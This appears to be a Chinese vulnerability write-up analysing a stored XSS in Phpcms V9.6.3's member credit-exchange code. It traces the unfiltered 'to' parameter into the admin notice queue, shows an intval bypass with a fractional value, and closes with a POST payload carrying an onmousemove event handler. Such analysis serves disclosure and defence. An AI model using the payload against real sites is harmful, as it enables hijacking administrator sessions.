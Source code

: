 # Phpcms V9.6.3 储存型xss

## 一、漏洞简介

## 二、漏洞影响

Phpcms V9.6.3

## 三、复现过程

### 漏洞分析

问题出在会员的积分兑换功能，文件：

```php
/phpcms/modules/member/index.php
 public function change_credit() {
  $memberinfo = $this->memberinfo;
  //加载用户模块配置
  $member_setting = getcache('member_setting');
  $this->_init_phpsso();
  $setting = $this->client->ps_getcreditlist();
  $outcredit = unserialize($setting);
  $setting = $this->client->ps_getapplist();
  $applist = unserialize($setting);

  if(isset($_POST['dosubmit'])) {
   //本系统积分兑换数
   $fromvalue = intval($_POST['fromvalue']);
   //本系统积分类型
   $from = $_POST['from'];
   $toappid_to = explode('_', $_POST['to']);      //这个是问题的参数
   //目标系统appid
   $toappid = $toappid_to[0];
   //目标系统积分类型
   $to = $toappid_to[1];
   if($from == 1) {
    if($memberinfo['point'] < $fromvalue) {
     showmessage(L('need_more_point'), HTTP_REFERER);
    }
   } elseif($from == 2) {
    if($memberinfo['amount'] < $fromvalue) {
     showmessage(L('need_more_amount'), HTTP_REFERER);
    }
   } else {
    showmessage(L('credit_setting_error'), HTTP_REFERER);
   }

   $status = $this->client->ps_changecredit($memberinfo['phpssouid'], $from, $toappid, $to, $fromvalue);

```

这里有个问题，由于`if($memberinfo['point'] < $fromvalue)`所以，`$fromvalue`不能大于会员的点数，但是没充值的状态下，点数是为0的，但是又由于上面有`intval($fromvalue)`，所以我们可以`$fromvalue=0.9`经过`intval`后就成了`0`，也就绕过了上面的逻辑。
跟进`ps_changecredit`函数：

```php
public function ps_changecredit($uid, $from, $toappid, $to, $credit) {
  return $this->_ps_send('changecredit', array('uid'=>$uid, 'from'=>$from, 'toappid'=>$toappid, 'to'=>$to, 'credit'=>$credit));
 }

```

继续跟进`_ps_send`函数：

```php
private function _ps_send($action, $data = null) {
   return $this->_ps_post($this->ps_api_url."/index.php?m=phpsso&c=index&a=".$action, 500000, $this->auth_data($data));
 }

```

最后是经过`auth_data`函数处理和加密，`auth_data`调用`sys_auth`加密函数进行加密:

```php
public function auth_data($data) {
  $s = $sep = '';
  foreach($data as $k => $v) {
   if(is_array($v)) {
    $s2 = $sep2 = '';
    foreach($v as $k2 => $v2) {
      $s2 .= "$sep2{$k}[$k2]=".$this->_ps_stripslashes($v2);
     $sep2 = '&';
    }
    $s .= $sep.$s2;
   } else {
    $s .= "$sep$k=".$this->_ps_stripslashes($v);
   }
   $sep = '&';
  }

  $auth_s = 'v='.$this->ps_vsersion.'&appid='.APPID.'&data='.urlencode($this->sys_auth($s));
  return $auth_s;
 }

```

`_ps_post`函数主要就是让服务器访问自己的网站上的一个地址
也就是访问了`phpsso`的`changecredit`函数（方法）。
我们先来看看`phpsso`：

```php
class phpsso {

 public $db, $settings, $applist, $appid, $data;
 /**
  * 构造函数
  */
 public function __construct() {
  $this->db = pc_base::load_model('member_model');
  pc_base::load_app_func('global');

  /*获取系统配置*/
  $this->settings = getcache('settings', 'admin');
  $this->applist = getcache('applist', 'admin');

  if(isset($_GET) && is_array($_GET) && count($_GET) > 0) {
   foreach($_GET as $k=>$v) {
    if(!in_array($k, array('m','c','a'))) {
     $_POST[$k] = $v;
    }
   }
  }

  if(isset($_POST['appid'])) {
   $this->appid = intval($_POST['appid']);
  } else {
   exit('0');
  }

  if(isset($_POST['data'])) {
   parse_str(sys_auth($_POST['data'], 'DECODE', $this->applist[$this->appid]['authkey']), $this->data);

parse_str(sys_auth($_POST['data'], 'DECODE', $this->applist[$this->appid]['authkey']), $this->data);可以看到是通过sys_auth函数解密（加密跟解密的函数是一样的）。
最后来看看changecredit：
 public function changecredit() {
  $this->uid = isset($this->data['uid']) ? $this->data['uid'] : exit('0');
  $this->toappid = isset($this->data['toappid']) ? $this->data['toappid'] : exit('0');
  $this->from = isset($this->data['from']) ? $this->data['from'] : exit('0');
  $this->to = isset($this->data['to']) ? $this->data['to'] : exit('0');
  $this->credit = isset($this->data['credit']) ? $this->data['credit'] : exit('0');
  $this->appname = $this->applist[$this->appid]['name'];
  $outcredit = $this->getcredit(1);
  //目标系统积分增加数
  $this->credit = floor($this->credit * $outcredit[$this->from.'_'.$this->to]['torate'] / $outcredit[$this->from.'_'.$this->to]['fromrate']);

  /*插入消息队列*/
  $noticedata['appname'] = $this->appname;
  $noticedata['uid'] = $this->uid;
  $noticedata['toappid'] = $this->toappid;
  $noticedata['totypeid'] = $this->to;
  $noticedata['credit'] = $this->credit;
  messagequeue::add('change_credit', $noticedata);
  exit('1');
 }

这里是进入数据库了：messagequeue::add('change_credit', $noticedata);
 public static function add($operation, $noticedata_send) {
  $db = self::get_db();
  $noticedata_send['action'] = $operation;
  $noticedata_send_string = array2string($noticedata_send);

  if ($noticeid = $db->insert(array('operation'=>$operation, 'noticedata'=>$noticedata_send_string, 'dateline'=>SYS_TIME), 1)) {
   self::notice($operation, $noticedata_send, $noticeid);
   return 1;
  } else {
   return 0;
  }
 }

```

调用insert写入数据。。这里就不跟了。由于系统开启了gpc（两次，初始化一次，phpsso一次），所以进去的数据是经过两次gpc的
输出跟模板就不说了，反正没过滤直接出来

整理一下思路，先从积分兑换填写表单，然后将数据整理成数组经过`sys_auth`加密一次，然后服务器发送数据包给自己，收到数据包之后用`sys_auth`函数解密，然后调用`changecredit`方法，`inert`插入数据库，然后管理员在后台点击通信信息的时候触发xss!

### 漏洞复现

利用方法，先注册一个帐号，然后登录，然后访问:

http://www.baidu.com/index.php?m=member&c=index&a=change_credit&

post:

```bash
dosubmit=1&fromvalue=0.6&from=1id=1`setset'&to=}" onmousemove=alert(1)>//

```

![1.png](media/202009/440f9e2dc7164b59803e57f7664fd873.png)

## 参考链接

> https://xz.aliyun.com/t/1860

